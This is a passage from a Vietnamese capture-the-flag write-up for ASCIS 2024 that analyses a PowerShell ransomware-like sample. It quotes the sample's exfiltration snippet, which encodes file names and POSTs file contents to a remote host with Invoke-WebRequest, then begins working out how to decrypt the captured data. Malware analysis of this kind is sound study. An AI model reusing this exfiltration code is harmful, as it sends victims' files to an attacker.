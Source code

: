 - Từ đây ta thấy rằng chúng lọc tất cả các file có trong `$Directory` (trừ các file đã mã hoá), sau đó gửi lần lượt tên và dữ liệu của file lên
- Xét thằng $B64Name trước (biến này chứa tên)

```powershell
$Pfile = $i.split($slash)[-1] ;
$B64Name = R64Encoder -t $Pfile
Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null
```

- Nhìn vào đây ta thấy tên được mã hoá bằng hàm R64Encoder. Còn đoạn `$Pfile = $i.split($slash)[-1]` chỉ là lấy tên từ đường dẫn đích thôi.
- Sau khi mã hoá gửi thông tin mã hoá chứa tên file thông qua lệnh POST và endpoint là /files
- Thử giải mã 1 vài đoạn dữ liệu thử xem có đúng không.
- ![aaananana](/assets/posts/ASCIS2024/13.png)
- ![aaaa](/assets/posts/ASCIS2024/12.png)
- Tiếp theo là về phần dữ liệu thực sự của mỗi file, để decrypt thành công được chỗ này ta phải phân tích hàm `EncryptFiles`
